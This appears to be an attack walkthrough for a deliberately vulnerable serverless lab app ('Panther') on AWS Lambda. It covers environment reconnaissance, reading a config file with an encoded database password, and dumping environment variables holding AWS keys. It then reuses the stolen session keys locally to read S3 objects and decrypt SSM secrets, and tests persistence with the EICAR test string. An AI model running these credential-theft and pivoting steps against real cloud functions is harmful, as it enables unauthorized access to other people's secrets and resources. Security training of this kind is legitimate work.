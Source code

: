 # AWS Lambda

## Execution Environment

```
id
uid=496(sbx_user1051) gid=495 groups=495
```

```
whoami
sbx_user1051
```

```
pwd
/var/task
```

```
ls -la
total 236
...
drwxrwxr-x  2 root root     34 Jan  6 16:16 assets
-rw-r--r--  1 root root    221 Jan  1  1980 config.json
drwxrwxr-x  2 root root     31 Jan  6 16:16 docs
-rw-r--r--  1 root root    314 Jan  1  1980 .eslintrc.json
-rw-r--r--  1 root root   1618 Jan  1  1980 handler.js
drwxrwxr-x  3 root root     27 Jan  6 16:16 node_modules
-rw-r--r--  1 root root   1101 Jan  1  1980 package.json
-rw-r--r--  1 root root   2888 Jan  1  1980 README.md
```

```
cat config.json
{
    "dev": {
        "database": {
            "user": "panther_user",
            "pass": "RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9u4oCZdCBrbm93IGV2aWwgb3IgamVhbG91c3kgb3IgZGlzY29udGVudC4="
        }
    }
}
```

```
ls /
bin
boot
cloudsql
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
serve
srv
start
sys
tmp
usr
var
```

```
cat /etc/os-release
NAME="Amazon Linux"
VERSION="2"
ID="amzn"
ID_LIKE="centos rhel fedora"
VERSION_ID="2"
PRETTY_NAME="Amazon Linux 2"
ANSI_COLOR="0;33"
CPE_NAME="cpe:2.3:o:amazon:amazon_linux:2"
HOME_URL="https://amazonlinux.com/"
VARIANT_ID="201910291416-al2.210.0"
```

```
echo "test" > test.txt
/bin/sh: line 7: test.txt: Read-only file system
```

```
env
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=ABC123
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
LAMBDA_TASK_ROOT=/var/task
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/panther-dev-panther
AWS_LAMBDA_LOG_STREAM_NAME=2020/01/05/[$LATEST]786a619211474ab1abe53a27eb390c0a
AWS_LAMBDA_RUNTIME_API=127.0.0.1:9001
AWS_EXECUTION_ENV=AWS_Lambda_nodejs12.x
AWS_LAMBDA_FUNCTION_NAME=panther-dev-panther
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=abc123
LANG=en_US.UTF-8
LAMBDA_RUNTIME_DIR=/var/runtime
TZ=:UTC
AWS_REGION=us-east-1
NODE_PATH=/opt/nodejs/node12/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules
AWS_ACCESS_KEY_ID=abc123
SHLVL=1
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
_X_AMZN_TRACE_ID=Root=1-5e126873-5371714038dfaa8cb41e3de0;Parent=74f98cb5549ebe41;Sampled=0
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_HANDLER=handler.panther
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=1024
_=/usr/bin/env
```

## Token Pivoting

### Retrieving Access Keys

Within a Panther reverse shell session:

```bash
env | grep ACCESS
env | grep AWS_SESSION_TOKEN
```

### Accessing Private Resources

On your local machine, export the environment variables retrieved in the previous step:

```bash
export AWS_ACCESS_KEY_ID=<ENTER KEY ID>
export AWS_SECRET_ACCESS_KEY=<ENTER SECRET ACCESS KEY>
export AWS_SESSION_TOKEN=<ENTER SESSION TOKEN>
```

Run the following commands:

```bash
aws s3 cp s3://panther-$BUCKET_SUFFIX/assets/panther.jpg .
aws ssm get-parameter --name /panther/database/password --with-decryption --region us-east-1
```

Running the following `watch` command to test how long the keys are valid for:

```bash
while true; do aws ssm get-parameter --name /panther/database/password --with-decryption --region us-east-1; date; sleep 3600; done
```

Expiration does not appear to occur until 12 hours after extracting the token.

## Persistence

Persisting a malware payload into the runtime environment:

```
echo "X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*" > /tmp/malware.sh
cat /tmp/malware.sh
X5O!P%@AP[4\PZX54(P^)7CC)7}-STANDARD-ANTIVIRUS-TEST-FILE!+H*
```

Waiting approximately 1 minute:

```
cat /tmp/malware.sh
X5O!P%@AP[4\PZX54(P^)7CC)7}-STANDARD-ANTIVIRUS-TEST-FILE!+H*
```

Waiting approximately 2 minutes:

```
cat /tmp/malware.sh
X5O!P%@AP[4\PZX54(P^)7CC)7}-STANDARD-ANTIVIRUS-TEST-FILE!+H*
```
Waiting approximately 3 minutes:

```
cat /tmp/malware.sh
X5O!P%@AP[4\PZX54(P^)7CC)7}-STANDARD-ANTIVIRUS-TEST-FILE!+H*
```

After approximately 15 minutes, still there:

```
cat /tmp/malware.sh
X5O!P%@AP[4\PZX54(P^)7CC)7}-STANDARD-ANTIVIRUS-TEST-FILE!+H*
```

Slowly started increasing the inactivity to 2, 3, 4, 5, and so on minutes. Finally, after 11 minutes of inactivity:

```
cat /tmp/malware.sh
cat: /tmp/malware.sh: No such file or directory
```
